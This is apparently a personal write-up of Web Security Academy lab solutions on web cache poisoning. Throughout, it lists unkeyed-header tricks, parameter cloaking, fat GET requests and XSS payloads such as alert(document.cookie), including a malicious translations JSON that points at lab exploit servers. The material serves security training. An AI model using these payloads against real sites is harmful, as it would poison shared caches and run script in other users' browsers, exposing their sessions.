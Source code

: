 # Exploiting cache design flaws
1. This lab has a basic cache poisoning attack where the unkeyed header `X-Forwarded-For` is used to dynamically generate a link to an external script. As such, by changing the exploit server's exploit page to be `/resources/js/tracking.js` and sending a request with the following header added, the cache can be poisoned to execute arbitrary javascript as is set in the exploit server: `X-Forwarded-Host: exploit-ac2e1fa71f190dabc0461bbf01f80054.web-security-academy.net`
2. This lab has a bug where the `Cookie` header is unkeyed, and one of the cookies is reflected within a script block. As such, sending a request with the following cookie can be used to cause XSS via cache poisoning: `fehost="}-alert(document.cookie)-{"asdf":"`
3. This lab has a bug where the request to `/resources/js/tracking.js` can be poisoned through a combination of the `X-Forwarded-Scheme` and `X-Forwarded-Host` headers. When the `X-Forwarded-Scheme` header is present and has a value of anything other than `https`, it returns a dynamically created redirection to the HTTPS version. It will use the `X-Forwarded-Host` value in this redirection, if it is present. As such, setting the exploit server to return `alert(document.cookie)` in response to `GET /resources/js/tracking.js` allows the following headers to poison the GET request and result in XSS:
```
X-Forwarded-Scheme: asdf
X-Forwarded-Host: exploit-acc71f921e3efb2ec0ef0c52015b0021.web-security-academy.net
```
4. This lab has a cache poisoning attack like the first lab, but with the `X-Host` header instead. However, the `User-Agent` header is keyed as well. As such, the user agent of the target must be discovered. This can be done by posting a comment with an image pointing to the exploit server, where the user agent can be seen. As such, the same steps as lab 1 can be followed, but with the following headers set to poison the cache:
```
X-Host: exploit-aca81f841e4b792ec0feb4c70164001b.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
```
5. This lab has a cache poisoning attack where the `X-Forwarded-Host` header is used to generate a link to JSON data that is handled unsafely, resulting in a DOM-based XSS vulnerability. By setting the exploit server's endpoint to `/resources/json/geolocate.json`, adding the `Access-Control-Allow-Origin: *` header to enable CORS, and setting the content to `{"country": "<img src=x onerror=alert(document.cookie)"}`, the cache poisoning attack can be triggered by sending a request with the following header: `X-Forwarded-Host: exploit-acee1f8a1f8d8321c0789c210182007d.web-security-academy.net`. This lab does not allow caching of responses that contain the `Set-Cookie` header, so the attack has to be performed after receiving a session cookie.
6. This lab has a cache poisoning attack where the `X-Forwarded-Host` header is used to generate a link to JSON data that has a DOM-based XSS vulnerability if the user has their language set to something other than English when accessing `/?localized=1`. There is a second cache poisoning attack where the `X-Original-URL` header can be used to force a redirect to a cached URL. As a result, the normal `/` endpoint can be poisoned using the header `X-Original-URL: /setlang\es` in order to cause accesses to that page to automatically set the user's page to Spanish and redirect them to the `/?localized=1` endpoint, which can also be poisoned with the header `X-Forwarded-Host: exploit-ac7b1fbd1f489461c05f1bf301b50095.web-security-academy.net` to import the malicious JSON file. In order for this to work, the exploit server's endpoint must be configured to `/resources/json/translations.json` with CORS enabled and the following body (taken from and modified from the real file):
```
{
 "en": {
        "name": "English"
    },
    "es": {
        "name": "espaÃ±ol",
        "translations": {
            "Return to list": "Volver a la lista",
            "View details": "</a><img src=x onerror=alert(document.cookie)>",
            "Description:": "DescripciÃ³n:"
        }
    }
}
```

# Exploiting cache implementation flaws
1. This lab excludes the query string from the cache key, but the `Origin` header can be used as a cache buster. The query string is reflected within a `<link>` tag however, so it can be used for XSS. As such, sending a request to the following URL can poison the cache: `/?xss='><script>alert(1)</script>`
2. This lab includes most of the query string, but excludes the `utm_content` GET parameter (and its value). Once again, the URL is unsafely reflected within the page, so sending a request to the following URL can poison the cache: `/?cb=1324&utm_content=%27><script>alert(1)</script>`
3. This lab also excludes the `utm_content` parameter, but doesn't reflect the query string within the response. However, the backend allows for separating GET parameters using `;` instead of `&` while the cache does not, so a keyed parameter can be overriden by an unkeyed one. As a result, the cache for `/js/geolocate.js` can be poisoned by submitting a request to the following: `/js/geolocate.js?callback=setCountryCookie&utm_content=asdf;callback=alert(1)//`
4. This lab caches the query string, but the backend servers accepts GET requests containing a body. As such, the cache for `/js/geolocate.js` can be poisoned by submitting a get request to `/js/geolocate.js?callback=setCountryCookie` with the body `callback=alert(1)//`
5. This lab has the cache normalize all request paths, so that they are the same whether or not they are URL-encoded. Additionally, there is a self-XSS vulnerability in the 404 page, but it is not exploitable via a web browser due to the automatic URL encoding. By combining these, you can manually send a request to `/xss</p><script>alert(1)</script>` in order to poison the cache, so anyone who follows that link will have the XSS trigger even though their browser used URL encoding
6. I couldn't figure out this lab. Even after following the instructions, it caused a 500 error instead of solving the lab, so I'm not entirely sure what the solution is supposed to be. The solution does mention some interesting behavior though, such as an unkeyed `utm_content` parameter, client-side parameter pollution in `/js/localize.js`, and the ability to leak the cache key using the `Pragma: x-get-cache-key` header to find out how to inject into the cache key
7. This lab has a 2nd internal cache that is used for the reference to `/js/geolocate.js`. This can be overriden using the `X-Forwarded-Host` header. As a result, the internal cache for that specific reference can be overriden by setting `X-Forwarded-Host: exploit-acd01fc21e5f8868c0ca65e0015a00bc.web-security-academy.net`, causing it to load an arbitrary javascript file whenever any user loads the page
